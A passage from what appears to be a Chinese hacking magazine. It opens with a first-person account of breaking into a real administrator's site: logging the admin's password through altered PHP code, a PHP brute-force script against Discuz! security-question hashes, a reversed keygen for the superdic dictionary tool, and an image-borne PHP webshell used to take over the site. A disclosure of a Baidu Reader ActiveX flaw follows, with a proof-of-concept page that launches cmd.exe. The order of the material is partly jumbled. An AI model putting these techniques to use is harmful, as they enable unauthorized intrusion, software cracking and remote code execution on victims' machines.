$result = $recontent."\r\n".$content;
@fwrite($handle, $result);
```

这次我没有着急，因为我发现这个管理员很勤快，几乎天天更新博客，于是第二天顺利记录到其密码。

## discuz! 提示问题的欺骗

在拿到管理员变态密码迫不及待地登录之后，发现需要给出提示问题的答案才能登录。

在以前，我遇到此类情况都是直接放弃，但是这次不同，前面一个多礼拜承载了我太多的磨难，我无法说服自己放弃。不是有一个早期的 BBS 用户数据库吗？我于是找到了密码提示问题答案的加密字段为 `2afd4591`，仅仅是一个 8 位的字符串，到底是什么加密算法呢？

我再次担当了阅读源代码的苦力差事。引用朋友的一句话：把我累得跟骆驼一样，终于得到如下结果。

Discuz 提示问题有 7 个，按数字序号是 `1,2,3,4,5,6,7`，设为变量 `$i`，明文答案设为变量 `$pass`。那么 `2afd4591 = substr(md5($pass.md5($id)),16,8)`，这样的话，提示问题答案是可以暴力破解的，但如果他的答案是汉字或者很变态长度的明文，也是很难破解的。我发现他最后的 hash 串仅仅是 8 位，那么有很大的概率是可以碰撞成功的。

于是我认为：肯定存在多个明文，hash 与 `2afd4591` 一样，但明文不一样，我十分肯定我的分析。下面就需要先制作一个大字典，然后开始写程序。

一般来说，重启验证要么是 keyfile，要么是写入注册表。经过下断点测试，我发现该程序使用的是注册表验证。这样一来，下断就有思路了。

## OllyDBG 调试 superdic 并制作注册码机

我可没有那么多耐性去做重复的工作，我认为肯定有很多人写过字典生成工具，下载一个用就是了。于是我下载到了 superdic，还挺好用的，如图 19 所示。



图 19

自己操刀 OllyDBG 调试一下，看这个作者用什么加密算法保护自己的程序吧。其实有时候调试算法，破解作者的加密思路也是一个不错的游戏，但是这次我没有那么多精力了，如果它能在两个小时内阻挡我，那我就从我绵薄的存款中给作者奉献一回吧。先用 peid 加载 `superdic.exe`，如图 20 所示。



图 20

从图 20 可以看出，软件是用 VC++6.0 写的，且没有加壳。看到这些我很惬意，看来省了我不少事。再用 ida 加载函数库符号并导入 OllyDBG 后，就可以开始分析了。按“F9”键运行后，我首先将注册码赋值为 `123456789`，单击“注册”按钮，弹出一个对话框，提示“请重启本程序，如果您输入的注册码正确，将能使用本软件的全部功能，并可享受后续版本的免费升级”。一般来说，重启验证要么是 keyfile，要么是写入注册表。

用 OllyDBG 加载 `superdic.exe` 后，在命令行下断 `bp RegOpenKeyExA`，然后按“F9”键让其运行，同时观察右边的堆栈窗口，在第 6 次按“F9”键之后，断在了这里，如图 21 所示。



图 21

从堆栈可以看到该软件注册表的位置是：`Software\EUsoft\superdic`，用 regedit 打开看一下这个位置，如图 22 所示。



图 22

从图 22 中看出，superdic 把用户名和注册码都保存在了 `Software\EUsoft\superdic` 这个位置。这时在 `0x77da7852` 这个位置按“F2”键取消断点，然后按“Alt+F9”组合键即可回到应用程序。这样一路按“F8”键可以来到这里，代码如下。

```asm
/*403AEA*/ LEA ESI,DWORD PTR DS:[EBX+6FC]
/*403AF0*/ PUSH ESI
/*403AF1*/ CALL superdic.004027A0
/*403AF6*/ ADD ESP,0C
/*403AF9*/ MOV ECX,EBX
/*403AFB*/ PUSH ESI
/*403AFC*/ PUSH 4A0
/*403B01*/ CALL superdic.00430B3C
/*403B06*/ MOV EDX,DWORD PTR DS:[EBX+218]
/*403B0C*/ LEA ESI,DWORD PTR DS:[EBX+218]
/*403B12*/ PUSH 0FF
/*403B17*/ MOV ECX,ESI
```

可以在 `0x403AF0` 处设置一个断点，接着按 F7 键进入 `CALL superdic.004027A0`，大致一看，应该是申请号的生成方法，代码如下。

```asm
.004027A0  SUB ESP,0C
.004027A3  PUSH ESI
.004027A4  PUSH 0C
.004027A6  CALL superdic.004319E7
.004027AB  PUSH 0A
.004027AD  MOV ESI,EAX
.004027AF  CALL superdic.004319E7
.004027B4  ADD ESP,8
.004027B7  LEA ECX,DWORD PTR SS:[ESP+C]
.004027BB  LEA EDX,DWORD PTR SS:[ESP+4]
.004027BF  PUSH 0A                ; pFileSystemNameSize
.004027C1  PUSH EAX               ; pFileSystemNameBuffer
.004027C2  LEA EAX,DWORD PTR SS:[ESP+10]
.004027C6  PUSH EAX               ; lpFileSystemFlags
.004027C7  PUSH ECX               ; lpMaxFileNameLength
.004027C8  PUSH EDX               ; lpVolumeSerialNumber
.004027C9  PUSH 0C                ; MaxVolumeNameSize
.004027CB  PUSH ESI               ; lpVolumeNameBuffer
.004027CC  PUSH superdic.00446148 ; RootPathName="c:\"
.004027D1  CALL DWORD PTR DS:[<&KERNEL32.GetVolumeInformationA>]
...
```

```asm
/*403EC3*/ CMP DL,CL
/*403EC5*/ JNZ SHORT superdic.00403EE5
/*403EC7*/ TEST AL,AL
/*403EC9*/ JE SHORT superdic.00403EE1
/*403ECB*/ MOV CL,BYTE PTR DS:[ESI+1]
/*403ECE*/ MOV DL,BYTE PTR DS:[EDI+1]
/*403ED1*/ MOV AL,CL
/*403ED3*/ CMP CL,DL
/*403ED5*/ JNZ SHORT superdic.00403EE5
...
/*403EF1*/ TEST EAX,EAX
/*403EF3*/ SETE DL
...
```

这段代码大概是使用 `GetVolumeInformationA` 函数再加上其他一系列操作生成申请号的过程，因为是逆注册算法，所以可以直接按“F8”键过去看结果即可，而事实上也确实生成一个子串 `24578843`，与图 19 中的申请号一致。

接着往下走，不关键的地方就跳过了，一直走到这里，代码如下。

```asm
/*403D48*/ LEA EAX,DWORD PTR DS:[EBX+6FC]
/*403D4E*/ PUSH ECX
/*403D4F*/ PUSH EAX
/*403D50*/ CALL superdic.004034E0
```

可以看到把申请号压入了堆栈，而函数 `CALL superdic.004034E0` 经判断是对申请号做了一次加密过程。从堆栈处看到加密后密文是：`0012EF6C  0012EFA0  ASCII "BqwITTcm8kG5lcEk"`。接着再按“F8”键配合按“F7”键慢慢走。

```asm
/*403D5B*/ PUSH ESI
/*403D5C*/ CALL superdic.00403630
```

`403D5B` 的位置是把注册码压入堆栈，随即利用 `CALL superdic.00403630` 做了一次加密。过了这个 call 后把我预设的 `123456789` 加密成了 `16345q789`，看下面堆栈数据。

```text
0012EF64   0012FCA0   ASCII "16345q789"
```

随后又经过一些与算法无关的代码后来到这里，代码如下。

```asm
/*403EBD*/ MOV DL,BYTE PTR DS:[ESI]
/*403EBF*/ MOV CL,BYTE PTR DS:[EDI]
/*403EC1*/ MOV AL,DL
```

这段代码即是 `BqwITTcm8kG5lcEk` 与 `16345q789` 的对比过程；如果相等就注册成功。作者的大体思路就是这样吧，如果暴力破解的话只需要把 `403EF1` 处改为下面的代码即可：`/*403EF1*/ MOV DL,1`。但分析到这里，暴力破解已经满足不了我的欲望了，再说离我的两个小时还差得远呢。接着看看作者算法的思路吧。

既然分析的思路已经清晰，这里再稍作整理：设 `CALL superdic.004034E0` 函数 = `f1()`，`CALL superdic.00403630` 函数 = `f2()`。如果 `f1(申请号)=f2(注册码)`，那么就注册成功。

看来 `f2()` 函数是关键啊，需要写出它的逆函数，按“F7”键进去一看，貌似还很长，如图 23 所示。



再次按“F7”键走来走去，再加上 IDA 的“F5”键，终于对这段代码有了初步的了解。

最终我使用了一种巧妙的办法写出了这段代码的逆函数。有点基础的朋友自己看代码吧，我也不好在这里占用太大篇幅去深析这个算法的逆向过程。代码如下。

```c
void DicDecode(char *str)
{
    char end[64] = {0};
    if (strlen(str) != 16) *str = 0;
    for (int i = 0, j = 0; i < 16 && j < 64; i++, j = j + 4)
    {
        if (str[i] <= '9' && str[i] >= '0')
        {
            end[j] = str[i] - 22;
            goto LABEL_a;
        }
        if (str[i] <= 'z' && str[i] >= 'a')
        {
            end[j] = str[i] - 61;
            goto LABEL_a;
        }
        if (str[i] <= 'Z' && str[i] >= 'A')
        {
            end[j] = str[i] - 65;
        }
LABEL_a:
        ;
    }
    for (i = 0; i < 64; i = i + 4)
    {
        if (end[i] <= i)
        {
            end[i] = i - end[i];
        }
    }
    int v10[16];
    for (int k = 0, n = 0; k < 16 && n < 64; k++, n = n + 4)
    {
        v10[k] = (int)end[n];
    }
    for (i = 0; i < 16; i++)
    {
        if (v10[i] <= 25 && v10[i] >= 0)
        {
            str[i] = v10[i] + 65;
            goto LABEL_bb;
        }
        if (v10[i] <= 35 && v10[i] >= 26)
        {
            str[i] = v10[i] + 22;
            goto LABEL_bb;
        }
        if (v10[i] < 61 && v10[i] >= 36)
        {
            str[i] = v10[i] + 61;
        }
LABEL_bb:
        ;
    }
    char sigeliu[5] = {0x36, 0x36, 0x36, 0x36, 0};
    strcat(str, sigeliu);
}
```

最后终于凑出了这个半成品的注册机，如图24所示。



该注册机的用法是在 00403D5B 处，看堆栈得到 f1(申请号)=BqwITTcm8kG5lcEk。把这个值写入密文框内，单击“解密”按钮就得到其注册码。

## discuz!提示问题答案爆破，碰撞 V5

字典生成器破解完后，我开始酝酿写这个 discuz! 提示问题的碰撞程序。由于 PHP 的易用性，我选择用它来写。说白了也就是个穷举的过程，代码如下。

```php
<?
/*discuz 提示问题答案暴力破解程序。by kyo327*/
error_reporting(0);
if ($argc<2) {
    print_r('
----------------------------------------------
Usage: php '.$argv[0].' hash
Example:
php '.$argv[0].' 91de8255
----------------------------------------------
');
    die;
}
$fd=fopen("pass.dic",'r');
if(!$fd)
{
    echo "error:打开字典文件错误";
    die;
}
while($buf=fgets($fd))
{
    for($i=1;$i<8;$i++)
    {
        $tmp=substr(md5(trim($buf).md5($i)),16,8);
        $conn = strcmp($tmp,$argv[1]);
        if($conn==0)
        {
            echo "密码破解成功 \n"."提示问题答案为:".$buf."提示的问题为:".theask((int)$i)."\n";
            die;
        }
    }
}

if($conn!=0)
{
    echo "没有正确的密码";
}
fclose($fd);
function theask($var){
    if($var==1){
        return "母亲的名字";
    }
    elseif($var==2){
        return "父亲的名字";
    }
    elseif($var==3){
        return "父亲出生的城市";
    }
    elseif($var==4){
        return "您其中一位老师的名字";
    }
    elseif($var==5){
        return "您个人计算机的型号";
    }
    elseif($var==6){
        return "您最喜欢的餐馆名称";
    }
    elseif($var==7){
        return "驾驶执照最后四位数字";
    }
}
?>
```

我敢肯定，ufedys 肯定不是这个管理员的答案。于是 hash 相同、明文却不相同的碰撞终于成功了。我默默在心里说了声：碰撞 V5。到下面的应该比较容易了，登录后台，上传一个带 PHP 一句话木马的美女图片（不要告诉我，你在 discuz! X2 后台找不到上传的地方啊），然后利用类似这样的 URL：

http://www.222.com/data/attachment/common/cf/212018txqnu4rcee3iek52.jpg/kyo.php

连接菜刀，就这样彻底拿下了该目标。既然 WebShell 都拿到了，删帖子这么简单的事情还用我继续说吗？

## 后记

到这里，费时两周的渗透也算是结束了，实战过程中其实还遇到了更多的各种各样的问题，只不过本文是后来补写的，很多细节都忘却了，但主要的东西都已经在文章中体现了。

最后我还是想提一提国内的安全现状，不出事不代表你们没有被入侵过，在我工作的这几年，做了不少安全检测，每次渗透测试拿到 shell 之时，大都发现有黑客进来的痕迹，这些还都是不知道打扫日志的菜鸟呢。以我这种菜鸟的水平，在别人给我目标时我都可以保证 50% 的成功率，还用说国内归隐的各种高手吗？

所以最后要敬告国内的某些大公司，请善待网络安全人才。另外在 2013 新的一年里祝愿冰点极限的 2yue、kindle、小龙猪、老马（Marcos）、lcx、np、孤水绕城、Beach、顺、安静、alex、紫夜、cnbug 等好友们婚姻与事业双丰收。

我使用自己保存的 100MB 大字典破解没有成功。后来我把这个脚本放在了一个朋友的服务器上，然后用 superdic 生成了 3GB 的大字典，直接丢在服务器上碰撞吧。其实我坚信，在 8 位的字母加数字的大字典中去做碰撞的话肯定会成功。只是我没有那么大的硬盘，只做了 6 位字母来测试。又经过一天后，等我登录朋友的服务器 3389 时，得到了结果，如图 25 所示。


图 25

### 前置知识：ActiveX

### 关键词：SDK


## 百度阅读器远程执行任意文件漏洞

图/文 爱无言

百度阅读器是一款向用户提供文字阅读功能的工具性软件，它支持主流文档格式，如 txt、pdf、doc、ppt 等，还支持在线阅读书籍，可以借助网络阅读更多的文档。该软件的使用界面也十分清爽，如图 1 所示。

在将百度阅读器安装进系统的时候，该软件自带了一个 ActiveX 控件，文件名为“BRIEPlugin1.1.0.274.dll”。使用 ComRaider 查看该控件提供的所有外部接口，如图 3 所示。


图 1



图 3

在使用百度阅读器阅读文档的时候，该软件模拟真实书籍阅读方式，将文档展现在用户面前，从这一方面来讲，确实非常让人喜欢，如图 2 所示。

从图 3 中看到，“BRIEPlugin1.1.0.274.dll”提供的外部接口非常丰富，在我们的测试中发现，出现问题的外部接口较多，而这里最引起我们关注的是一个名为“OpenPage”的外部接口。该外部接口的函数原型为：



图 2

```vb
Sub OpenPage (
    ByVal strPageURL As String
)
```

从函数原型我们发现，“OpenPage”的参数只有一个，其属于字符串型。面对这种参数，一般情况下，我们都会考虑对其进行缓冲区溢出测试，但是，这里我们却不这样考虑。借助 OllyDbg 我们对“BRIEPlugin1.1.0.274.dll”文件进行了反汇编分析，发现其中调用了一个不安全函数“ShellExecuteW”，如图 4 所示。


图 4

“ShellExecuteW”是一个可以运行任何文件的系统函数，我们怀疑该函数在某种情况下，通过调用“BRIEPlugin1.1.0.274.dll”文件的外部接口可以触发该函数。很幸运，“OpenPage”这个外部接口就是“ShellExecuteW”函数的调用者。我们可以写一个简单的测试网页代码来证明这个分析，网页代码如下。

```html
<object
classid="clsid:4EA36CDF-1236-45E8-B7E8-B6140C617A21"
name="evil"></object>
<script>
document.write(evil.OpenPage("cmd.exe"));
</script>
```

保存上面的代码为 index.htm，上传该网页文件到服务器上，用 IE 访问该网页，效果如图 5 所示。



图 5

图 5 的画面已经足以说明一切，“BRIEPlugin1.1.0.274.dll”文件的“OpenPage”确实调用了“ShellExecuteW”函数，而“strPageURL”这个参数就代表了被运行文件的名称。现在，我们可以发挥自己的想象力来构造出任意的 exploit 网页，例如，使用死循环调用程序造成用户系统死机、采用欺骗页面诱使用户运行远程木马等。

百度阅读器出现的这个安全漏洞，从实质上说是一个执行任意文件的安全漏洞，危害较大，尤其是漏洞发生在 ActiveX 控件上，这就使得该漏洞可以实现远程攻击的效果。编程人员在设计该 ActiveX 控件的时候，可能没有仔细考虑到安全方面的要求，疏忽了对系统函数的调用进行安全封装。

“ShellExecuteW”函数的作用不仅仅限于运行可执行文件，凡是系统注册、有相关联类型的文件都可以被成功运行，还有协议类，如 mailto。面对这样的函数，编程人员应该对用户提交的参数进行严格审核，微软在 2010 年就对“ShellExecuteW”函数出现的安全漏洞进行了修补，其性质类似于此。所以，希望本文能够引起百度公司的注意，及时修补该漏洞。

最后，本文旨在讨论安全技术，请勿利用文中技术进行任何违法操作，否则作者与杂志概不负责。

### 前置知识：无

### 关键词：iWeb Mall

## 危机四伏的 iWeb Mall 多用户商城系统


图/文 爱无言

随着淘宝网的日益强大，很多商家都看到了网络经营带来的巨大商机，都有意借助网络来开设自己的店铺。与此同时，各个软件公司也开始推出自己的网络商城系统，让更多的人可以自己租用服务器来架设属于自己的“淘宝网”。iWeb Mall 多用户商城系统正是这样一款国内知名的网站系统。

